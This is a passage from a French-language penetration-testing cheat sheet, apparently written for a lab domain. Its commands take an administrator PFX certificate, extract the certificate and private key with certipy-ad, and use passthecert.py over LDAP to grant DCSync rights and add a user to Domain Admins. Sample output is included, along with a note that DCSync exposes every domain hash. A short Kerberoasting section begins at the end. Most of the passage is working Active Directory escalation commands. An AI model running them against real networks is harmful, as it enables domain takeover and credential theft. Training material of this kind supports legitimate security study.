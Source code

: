 - **Solution** : Convertir le certificat `PFX` en fichiers `.crt `(certificat) et `.key` (clé privée), puis utiliser `passthecert.py` pour effectuer des opérations `LDAP` (par exemple, accorder des droits `DCSync` ou ajouter un utilisateur à un groupe).
    

```bash
# Extraire le certificat sans la clé privée
certipy-ad cert -pfx <CERT_FILE> -nokey -out user.crt
# Exemple :
certipy-ad cert -pfx administrator.pfx -nokey -out user.crt

# Extraire la clé privée sans le certificat
certipy-ad cert -pfx <CERT_FILE> -nocert -out user.key
# Exemple :
certipy-ad cert -pfx administrator.pfx -nocert -out user.key

# Accorder des droits DCSync à un utilisateur
python3 /path/to/passthecert.py -action modify_user -crt user.crt -key user.key -domain <DOMAIN> -dc-ip <IP> -target <TARGET_USER> -elevate
# Exemple :
python3 /path/to/passthecert.py -action modify_user -crt user.crt -key user.key -domain arkhaion.secdojo -dc-ip 10.8.0.2 -target administrator -elevate
# Résultat : Granted user 'administrator' DCSYNC rights!

# Accéder à une interface LDAP pour modifier des objets
python3 /path/to/passthecert.py -action ldap-shell -crt user.crt -key user.key -domain <DOMAIN> -dc-ip <IP>
# Exemple :
python3 /path/to/passthecert.py -action ldap-shell -crt user.crt -key user.key -domain arkhaion.secdojo -dc-ip 10.8.0.2
# Dans l’interface LDAP :
add_user_to_group <USERNAME> "Domain Admins"
# Exemple :
add_user_to_group amelia.lopez "Domain Admins"
```

Notes :

- `passthecert.py` contourne l’erreur `KDC_ERR_PADATA_TYPE_NOSUPP` en utilisant le certificat pour des opérations `LDAP` directes plutôt que via Kerberos.
    
- Assurez-vous que le domaine et l’IP du DC sont corrects.
    
- Les droits `DCSync` permettent d’extraire tous les hashes du domaine avec secretsdump.py.
    

---

### Autres techniques utiles

**Kerberoasting**

- **Objectif** : Récupérer des `TGS` pour des comptes avec `SPN` et casser leurs hashes.
    
- **Outil** : `impacket-GetUserSPNs`.
    